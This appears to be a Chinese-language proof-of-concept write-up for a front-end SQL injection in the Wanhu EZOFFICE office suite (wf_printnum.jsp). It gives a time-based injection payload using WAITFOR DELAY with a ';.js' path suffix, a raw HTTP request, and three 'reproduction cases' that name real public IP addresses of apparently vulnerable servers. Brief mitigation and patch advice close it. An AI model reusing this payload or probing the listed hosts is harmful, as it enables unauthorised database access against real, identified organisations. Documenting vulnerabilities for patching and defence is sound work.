









#  万户EZOFFICE 前台SQL注入漏洞

## 漏洞描述

万户EZOFFICE是一款全面的办公套件软件，旨在提供企业和个人用户所需的各种办公工具和功能。它集成了多个应用程序，包括文档处理、电子表格、演示文稿、日历、邮件等，以满足用户的办公需求。万户EZOFFICE前台wf_printnum.jsp类中存在SQL注入，可导致系统受到严重危害。

## 漏洞复现介绍

访问对应产品链接，进行url拼接：

主机+端口+ defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1;WAITFOR DELAY '0:0:5'--

出现如下图所示，则存在SQL注入漏洞：

SQLmap检测如下：

## 漏洞数据包

  GET  /defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1  HTTP/1.1  Host: X.X.X.X:7001  User-Agent:  Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101  Firefox/121.0  Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  Accept-Language:  zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  Accept-Encoding:  gzip, deflate  Connection:  close  Cookie:  LocLan=zh_CN;  JSESSIONID=yPtLlv5NtD5q2VmqyRHyTht93mpTMT0WKCggTj2KksNgrQCQ7G41!-1904458285  Upgrade-Insecure-Requests:  1  

 

## 复现案例1

http://117.174.106.162:7001/defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1

访问链接为：

存在漏洞：

## 复现案例2

http://183.239.29.66:7001/defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1

访问链接为：

存在漏洞：

## 复现案例3

http://117.35.203.90:7001/defaultroot/platform/bpm/work_flow/operate/wf_printnum.jsp;.js?recordId=1

访问漏洞链接：

存在漏洞：

## 临时解决方案

将对应接口设置为用户不可访问；可使用云WAF进行接口限制，但是存在绕过风险，请尽快前往官网下载安装升级补丁。

## 正式解决方案

官方已发布补丁修复了该漏洞，可下载参考链接中的官方补丁包进行升级。补丁获取地址：https://www.whir.net/